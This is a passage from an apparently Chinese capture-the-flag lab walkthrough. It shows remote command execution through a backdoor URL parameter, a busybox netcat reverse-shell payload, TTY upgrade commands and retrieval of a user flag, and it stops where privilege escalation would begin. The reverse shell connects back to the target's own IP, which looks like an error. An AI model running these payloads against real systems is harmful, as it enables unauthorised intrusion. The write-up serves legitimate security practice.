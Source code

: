 ```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ curl 'http://192.168.205.128:8000/backdoooooooooooooooooor?cmd=__import__("os").popen("whoami").read()'
welcome
```

成功执行命令！我们当前的用户是 `welcome`。

## 3. 反弹 Shell

为了获得一个更稳定的交互式 Shell，我们利用这个 RCE 漏洞反弹一个 Shell 到我们的攻击机上。目标系统上存在 `busybox`，它集成了 `nc` (netcat) 工具。

1.  在攻击机（Kali）上监听 8888 端口：

```bash
nc -lvnp 8888
```

2.  通过 URL 发送反弹 Shell 的 payload（注意 `+` 在 URL 中会被视为空格，这里是 `busybox` 多功能二进制文件的用法）：

```bash
curl 'http://192.168.205.128:8000/backdoooooooooooooooooor?cmd=__import__("os").popen("busybox+nc+192.168.205.128+8888+-e+/bin/bash").read()'
```

攻击机成功接收到连接，我们获得了 `welcome` 用户的 Shell。

## 4. 稳定 Shell 并获取用户 Flag

为了更好的交互体验，我们将这个简陋的 Shell 升级为功能齐全的 TTY。

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
reset xterm  
export TERM=xterm  
export SHELL=/bin/bash  
stty rows 24 columns 80
```

在 `welcome` 用户的家目录下，我们找到了第一个 flag。

```bash
localhost:~$ ls -al
...
-rw-r--r--    1 root     welcome         39 Jul 14 15:11 user.txt
localhost:~$ cat user.txt
flag{5a80870310e5a3bc10c00ef6d20a3cac}
```

# 四、权限提升

我们的目标是 root 权限，因此需要进行提权。
